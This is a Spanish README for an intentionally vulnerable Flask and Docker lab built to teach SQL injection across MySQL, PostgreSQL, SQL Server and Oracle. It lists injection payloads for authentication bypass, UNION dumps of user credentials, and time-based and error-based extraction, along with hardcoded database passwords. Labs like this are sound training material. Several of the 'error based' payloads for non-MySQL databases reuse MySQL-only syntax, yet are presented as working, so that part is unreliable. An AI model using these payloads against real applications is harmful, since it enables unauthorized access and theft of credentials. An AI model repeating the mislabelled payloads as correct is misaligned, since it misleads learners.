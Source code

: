 Para lanzar la aplicación, ejecutar: `docker-compose up -d`

# 🎉 ¡Docker Compose Ejecutado Exitosamente!

## ✅ **Estado Actual - TODOS LOS CONTENEDORES FUNCIONANDO**

### 🐳 **Contenedores Ejecutándose:**
- ✅ **Flask App:** http://localhost:5000
- ✅ **MySQL:** puerto 3306
- ✅ **PostgreSQL:** puerto 5432
- ✅ **SQL Server:** puerto 1433 (✅ CORREGIDO)
- ✅ **Oracle:** puerto 1521

### 📊 **Verificación de Estado:**
```bash
docker-compose ps
```
### **Aplicación Web:**
- **URL:** http://localhost:5000
- **API:** http://localhost:5000/api/query
- **Ejemplos:** http://localhost:5000/demo

## 🔥 **Ejemplos de SQL Injection Funcionales**

### **MySQL:**
```sql
-- Bypass de autenticación
admin' OR '1'='1' --

-- Union attack
' UNION SELECT 1,2,3,4,5 --

-- Dump de datos
' UNION SELECT username,password,email,NULL,NULL FROM users --
```

### **PostgreSQL:**
```sql
-- Bypass de autenticación
admin' OR '1'='1' --

-- Union attack
' UNION SELECT 1,2,3,4,5 --

-- Error based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x7e,(SELECT version()),0x7e,FLOOR(RAND()*2))x FROM information_schema.tables GROUP BY x)a) --
```

### **SQL Server:**
```sql
-- Bypass de autenticación
admin' OR '1'='1' --

-- Union attack
' UNION SELECT 1,2,3,4,5 --

-- Time based
' WAITFOR DELAY '00:00:05' --

-- Error based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x7e,(SELECT @@version),0x7e,FLOOR(RAND()*2))x FROM sys.tables GROUP BY x)a) --
```

### **Oracle:**
```sql
-- Bypass de autenticación
admin' OR '1'='1' --

-- Union attack
' UNION SELECT 1,2,3,4,5 FROM DUAL --

-- Error based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x7e,(SELECT banner FROM v$version WHERE rownum=1),0x7e,FLOOR(DBMS_RANDOM.VALUE(0,2)))x FROM dual GROUP BY x)a) --
```

## 🛠️ **Comandos Útiles**

### **Gestión de Contenedores:**
```bash
# Ver estado
docker-compose ps

# Ver logs
docker-compose logs

# Ver logs específicos
docker-compose logs mysql
docker-compose logs postgresql
docker-compose logs sqlserver
docker-compose logs oracle
docker-compose logs app

# Detener contenedores
docker-compose down

# Reiniciar contenedores
docker-compose restart

# Reconstruir y levantar
docker-compose up --build -d
```

### **Acceso a Bases de Datos:**
```bash
# MySQL
docker exec -it sqli-demo-mysql-1 mysql -u root -ppassword vulnerable_db

# PostgreSQL
docker exec -it sqli-demo-postgresql-1 psql -U postgres -d vulnerable_db

# SQL Server
docker exec -it sqli-demo-sqlserver-1 /opt/mssql-tools/bin/sqlcmd -S localhost -U sa -P ClaveSegura2025!

# Oracle
docker exec -it sqli-demo-oracle-1 sqlplus system/password@localhost:1521/FREEPDB1
```

## 🎯 **Características Implementadas**

### ✅ **Aplicación Web:**
- Interfaz moderna con Bootstrap 5
- API REST funcional
- Página de ejemplos educativos
- Manejo de errores elegante

### ✅ **Vulnerabilidades Educativas:**
- SQL Injection por concatenación directa
- Falta de sanitización de entrada
- Exposición de errores de base de datos
- No uso de prepared statements

## ⚠️ **Advertencias Importantes**

- **Solo para fines educativos**
- **No usar en producción**
- **No usar con datos sensibles**
- **Vulnerabilidades implementadas intencionalmente**

## 🎉 **¡Éxito Total!**

La aplicación web vulnerable está **completamente funcional** con:

- ✅ **4 bases de datos** ejecutándose en Docker
- ✅ **Aplicación Flask** accesible en http://localhost:5000
- ✅ **API REST** funcional
- ✅ **Interfaz web moderna** y responsive
- ✅ **Ejemplos educativos** de SQL Injection
- ✅ **Configuración Docker** automatizada
- ✅ **SQL Server funcionando** con contraseña corregida

### **Próximos Pasos:**
1. Abre http://localhost:5000 en tu navegador
2. Selecciona una base de datos del dropdown
3. Prueba los ejemplos de SQL Injection
4. Explora la página de ejemplos en /demo
5. Usa la API REST para pruebas programáticas

¡La aplicación está lista para usar y aprender sobre vulnerabilidades de SQL Injection de manera segura! 
